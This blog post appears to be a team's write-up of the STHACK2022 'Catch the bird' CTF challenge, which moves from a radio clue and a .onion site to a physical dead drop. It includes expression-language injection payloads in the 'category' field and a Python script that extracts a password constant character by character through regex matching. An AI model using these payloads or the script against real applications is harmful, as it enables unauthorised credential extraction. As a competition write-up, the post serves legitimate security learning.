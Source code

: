 ```yaml
---
layout: post
title: STHACK2022 - Catch the bird, a trip from web to IRL
image: /images/STHACK2022/sthack2022_post-card.png
---
```


* Challenge author: ajani
* Category: `web`, `physical`

The challenge started with the following Post Card

![Post Card]({{ site.baseurl }}/images/STHACK2022/sthack2022_post-card.png)

<!--more-->

We also had the following scenario:

{% highlight php%}
This time I think Archer have got himself involved in something far to big for him.

Last time I've seen him he seemed agitated, anxious, he kept telling about that man he was following, how he felt it had been made, and something about Malta and some bird statuette. That was 9 days ago and I haven't heard from Miles since then.

It seems strange, but it wouldn't be the first time he didn't give news for days until he woke up to some unknown county of this damn country, with an empty bottle of the worst whisky and a skull full of the finest hangover. The guy love the bottle to much, and she didn't returned him so well. Yet, I could tell something was off, it didn't felt right.

That was until this morning, when a post card arrived at the bureau mailbox. Postcard At first sight it's just a simple postcard to tell me he need to take some vacations right ? But here's the thing, Miles never lived at the 101.10 Marconi street...

If Archer ask for my help then it must really be serious. I need to find where this statuette is, and judging by the postcard I must hurry, 'cause whomever have the damn bird, it seems like he want to sell it.
{% endhighlight %}

We quickly realized we needed to listen on the **Radio Frequency** 101.1Mhz inside the "Hotel de Ville". This was achieved using a Xiaomi Android Application, we recorded everything broadcasted on the frequency in this file:

* [Recording FM @ 101.1 MHz]({{ site.baseurl }}/images/STHACK2022/FM_101.1 MHz_20220520212911.mp3)

We can hear the well known military code, which gave us this .onion website:
http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion:80, we accessed it using Tor.

After some time exploring the website we discovered "a feature" to send a mail with an extract of the current code when an error occured on the website.

We found two ways to trigger an error:
- trying to login using a wrong password: `LoginController.php`
- while injecting and breaking context inside the shop part of the website: `Lexer.php`

The team spent too much time trying to find a Server Side Template Injection since it was using a `twig` template in line 21@LoginController.php.

![Dump code controller]({{ site.baseurl }}/images/STHACK2022/sthack2022_dump_code_controller.png)
![Dump code lexer]({{ site.baseurl }}/images/STHACK2022/sthack2022_dump_code_lexer.png)

However while we were fuzzing the `category` field, we discovered the '`~`' was working to concatenate two strings in Twig and tried the following requests:

| Query | Output | Indicator |
| ---- | ---- | ---- |
| category=category == 'forgery' | Displays the product "Coated Something" | True |
| category=category == 'forg'~'ery' | Displays the product "Coated Something" | True |
| category=category == 'forg'~'ery'~'7'*7 | Don't display but do not throw an error| False |

We had an oracle !! However we didn't manage to find an interesting primitive allowing us to execute commands.
So we used our favorite tool "Burp Suite Intruder" and fuzzed with the top 100 functions in PHP and Symfony and some weird behaviors started to appear.
The function `constant` was recognised by the parsing engine, then it clicked, the `Lexer.php` file was located in a folder called `expression language`. We tried to confirm the function using several global constants.

{% highlight py%}
category=category == 'forg'~'ery'~'7'*7
category=category == 'forg'~'ery'~constant("DB_USER")
category=category == 'forg'~'ery'~constant("INFO_ALL")
category=category == 'forg'~'ery'~constant("true")
category=category == 'forg'~'ery'~constant("null")
{% endhighlight %}

However it's only giving us the information about the existence of a constant it would be better to extract their value. Especially the value of the constant `self::PASSWORD`@LoginController.php.

First, we attempt to access the constant located in another file on the server. Thankfully the server errors were quite verbose and give us half of the payload :)

{% highlight py%}
Error : Attempted to load class "LoginController" from namespace "\App\\Controller\".
Did you forget a "use" statement for "App\Controller\LoginController"?
{% endhighlight %}

The trick here was to add several backslash `\\\\`

{% highlight py%}
'forg'~'ery'~constant("\\\\App\\\\Controller\\\\LoginController::PASSWORD")
{% endhighlight %}

Now that we confirmed the access to the `PASSWORD` constant, we tried to read the characters one-by-one like any array with `array[0] == 'A'`. But the pain was only starting, Expression Language constant cannot be accessed like an array... We finally found an alternative using **Regular Expressions** and created a small script which was ... too slow, remember we are using Tor to connect to the .onion website and the shared network on site was a bit laggy. 

{% highlight py%}
import requests

flag = "Ybhr"
charset = "azertyuiopqsdfghjklmwxcvbnAZERTYUIOPQSDFGHJKLMWXCVBN1234567890"

for c in charset:
    burp0_url = "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion:80/"
    burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion", "Connection": "close", "Referer": "http://sthackmdbidwkyebhklnfnwmqhj3oxnke5inylzrtwzenr752tn77oad.onion/", "Upgrade-Insecure-Requests": "1"}
    burp0_data = {"category": "constant(\"\\\\App\\\\Controller\\\\LoginController::PASSWORD\") matches \"/^"+flag+"\" ", "& category ": "= 'forgery'"}
    r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(c, len(r.text))
{% endhighlight %}

Once again we turned to our Intruder and fuzzed with the charset `a-zA-Z0-9`, with the following payload: `category=constant("\\App\\Controller\\LoginController::PASSWORD") matches "/^Y[FUZZED_CHAR_ADDED_HERE]/" && category == 'forgery'` and we got the following quite quickly: `Ybhr5vmjJD` after switching to our 4G network for a more reliable access.

Now we can access the Admin Panel and manage the products. Only one product (deaddrop) as available for purchase. 

![Web Login]({{ site.baseurl }}/images/STHACK2022/sthack2022_deaddrop-login.png)

> Dead Drops is an anonymous, offline, peer to peer file-sharing network in public space. Anyone can access a Dead Drop and everyone may install a Dead Drop in their neighborhood/city. A Dead Drop must be public accessible. - The Dead Drops Manifesto

The product coordinates were really close to us and the challenge was listed in the categories `web` and `physical`. We went there with a laptop and other tools like a lockpick set. Obviously the deaddrop wasn't embbeded into the "Hotel de Ville"'s wall, it was cemented to a pad lock ;)

![]({{ site.baseurl }}/images/STHACK2022/sthack2022_gpslocate.png)

Some interesting encrypted files were stored on the deaddrop and we had the key to decrypt them using the command `openssl aes-256-cbc -d -in whisky.txt.aes256cbc -out secrets2.txt.new`

![AES secrets]({{ site.baseurl }}/images/STHACK2022/sthack2022_aes_key.png)

And now for the final step: a new onion URL from one of the decrypted file (maltapyzyfnwvgkl4se7tlhlrohule77cgnaguy2nouxyvosovjldbyd.onion). It seems to be an aunction website, but the site is not yet opened. The opening is scheduled for the 23rd May but something smells fishy, the Javascript was heavily obfuscated, and we are still waiting for our flag. 

{% highlight js%}
// Example of Pentester's nightmare
function _0x18c8(_0x46078f,_0xd7ff98){var _0x33e42d=_0x3b53();return _0x18c8=function(_0x164e09,_0x470955){_0x164e09=_0x164e09-(0x1063+-0x19*0x187+0x16b7);var _0xf46362=_0x33e42d[_0x164e09];return _0xf46362;},_0x18c8(_0x46078f,_0xd7ff98);}function _0x3b53(){var _0x574953=['aW9uYWwgbm','4JDouuU','fEdgK'[...]
{% endhighlight %}

Let's discuss methodology to apprehend this problem:

![JS deobf]({{ site.baseurl }}/images/STHACK2022/sthack2022_deobf.jpg)

Having spent wayyyy too much time on this challenge, we used a quite radical approach and changed our VM internal date slowly to arrived at the opening date: `date -s "2021-03-23 16:58:22"` and then we got our flag.

Overall the challenge was nice and interesting to resolve with my teammates. Having a bit of physical without resorting to use a full arsenal of HackRF, Proxmark or a crowbar was quite refreshing :)

![Scoreboard]({{ site.baseurl }}/images/STHACK2022/sthack2022_scoreboard.jpg)